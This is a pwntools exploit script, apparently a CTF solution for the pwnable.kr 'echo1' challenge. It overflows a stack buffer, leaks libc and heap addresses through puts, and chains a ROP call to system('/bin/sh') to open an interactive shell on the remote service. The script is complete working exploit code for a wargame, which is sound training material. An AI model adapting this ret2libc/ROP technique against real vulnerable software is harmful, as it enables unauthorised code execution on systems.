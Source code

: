 ### `yinon`
~~ placing `pop rdi; ret` instructions in id to set up `glibc` leak, and o on heap leak, then call system(o) ~~
```python
#might take couple tries to work probably because aslr might make some pointer contain a null

from pwn import *

context.terminal = ["tmux", "splitw", "-h"]

RIPOFF = 40
elf = ELF("echo1")

debug = False

if debug:
    f = process("echo1")
else:
    f = remote('pwnable.kr', 9010)

f.sendline("\x5F\xC3/bin/sh") #pop rdi; ret
f.sendline('1')
print(f.recvlines(10, timeout=2))

# getting libc leak - holi fuck, he called puts(got.puts) so easily!
f.sendline(b'a'*(RIPOFF) + p64(elf.symbols['id']) + p64(elf.got['puts']) +
           p64(elf.plt["puts"]) + p64(elf.symbols['echo1']))
print(f.recvline())
print(f.recvline())
leak = bytes(f.recvline()).split(b'\n')[0]

#hardcoded values, shut up i'm lazy
if debug:
    libc_base = int.from_bytes(leak, 'little') - 0x021b10
    systemoff = libc_base + 0x04f550
else:
    libc_base = int.from_bytes(leak, 'little') - 0x06f690
    systemoff = libc_base + 0x045390
print('libc leak: ', hex(libc_base))

# getting o(heap) leak - lol this shit is fun
f.sendline(b'a'*(RIPOFF) + p64(elf.symbols['id'])
           + p64(elf.symbols['o'])+p64(elf.plt["puts"]) + p64(elf.symbols['echo1']))
           
print(f.recvlines(3, timeout=1))
leak = bytes(f.recvline()).split(b'\n')[0]
print(leak)
o = int.from_bytes(leak, 'little')
# jumps to ret to id (pop rdi ret) he said it was because of some padding issues but what? 
# system may expect an align stack so this is the reason... then he just calls system :)
f.sendline(b'a'*RIPOFF+p64(elf.symbols['id']+1) + p64(elf.symbols['id']) + #padding
           p64(o+2) + p64(systemoff) )

print(f.recvlines(3, timeout=1))
f.sendline("whoami")
print(f.recvline())


f.interactive()
```
